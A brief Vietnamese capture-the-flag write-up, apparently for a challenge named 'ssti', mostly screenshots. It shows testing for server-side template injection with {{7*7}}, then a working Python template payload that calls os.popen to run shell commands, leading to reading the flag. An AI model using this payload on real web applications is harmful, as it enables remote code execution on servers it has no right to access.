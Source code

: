 ![image](https://github.com/user-attachments/assets/01dbbe3b-f7c9-47b7-9dc0-a84762fe96de)

Do bài tên là ssti nên tôi dùng thử `{{7*7}}` để test:

![image](https://github.com/user-attachments/assets/3d4c491d-a28a-4fa9-a4c5-ff8f972994a9)

![image](https://github.com/user-attachments/assets/adb89204-e9f0-4a35-8099-5d6e5dd15817)

![image](https://github.com/user-attachments/assets/2ce4ebf8-7e31-400d-86d2-8dc51348cd75)

Kết hợp với thông tin nó sự dụng python, tôi dùng thử payload `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` và nó chạy:

![image](https://github.com/user-attachments/assets/ded0b24b-e17f-4435-9b81-a71a71256641)

Giờ ls và cat flag là xong

![image](https://github.com/user-attachments/assets/4be11990-5e1b-4ab1-9f87-aa4201d09966)


